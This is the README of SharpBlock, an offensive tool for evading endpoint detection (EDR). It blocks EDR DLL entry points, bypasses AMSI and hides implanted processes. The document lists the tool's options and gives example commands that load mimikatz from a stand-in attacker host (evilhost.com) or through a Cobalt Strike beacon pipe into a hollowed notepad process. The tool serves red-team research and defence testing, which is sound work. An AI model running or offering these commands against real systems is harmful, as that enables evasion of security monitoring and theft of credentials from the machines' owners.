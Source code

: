 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Can use a host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.



```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x86_64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -b, --bypass=VALUE         Bypasses AMSI within the executed process (true|
                               false)
  -s, --spawn=VALUE          Host process to spawn for swapping with the target
                               exe
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload-file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload-file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 
